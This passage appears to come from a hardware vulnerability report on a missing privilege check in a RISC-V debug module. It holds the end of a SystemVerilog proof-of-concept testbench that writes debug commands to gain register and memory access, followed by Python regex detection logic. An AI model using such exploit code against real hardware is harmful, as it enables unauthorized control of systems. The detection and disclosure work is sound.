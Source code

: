 ```systemverilog
      // Step 4: Execute arbitrary debug commands
      write_dmi_register(dm::Command, 32'h00271000);  // Read register command
      write_dmi_register(dm::Command, 32'h00371000);  // Write register command
      
      $display("SUCCESS: Can now read/write any CPU register or memory!");
    end else begin
      $display("FAILED: Exploit did not work");
    end
  end
  
  task write_dmi_register(input [31:0] addr, input [31:0] data);
    dmi_req.op = dm::DTM_WRITE;
    dmi_req.addr = addr;
    dmi_req.data = data;
    apply_dmi_request();
  endtask
  
endmodule
```

#### Detection method
**Tool**: Custom static analysis script combined with manual code review  
**Methodology**: 
1. **Automated Pattern Detection**: Developed Python script that scans SystemVerilog files for privilege check patterns using regex:
   ```python
   privilege_patterns = [
       r'(privilege|auth|permission).*check',
       r'(valid|verify).*access',
       r'security.*validation'
   ]
   ```
2. **Control Flow Analysis**: Manually traced execution paths from external interfaces to sensitive operations
3. **Verification Property**: Checked that all write operations to debug control registers include authorization validation

**Specific detection logic**:
```python
def detect_missing_privilege_check(file_content, line_num):
    # Look for write operations to debug registers
    if re.search(r'dmi_req_i\.op.*DTM_WRITE', file_content[line_num]):
        # Check surrounding context for privilege validation
        context = '\n'.join(file_content[max(0, line_num-10):line_num+10])
        if not re.search(r'(auth|privilege|permission)', context, re.IGNORECASE):
            return True  # Vulnerability detected
    return False
```

#### Security impact
This vulnerability provides complete system compromise capabilities:
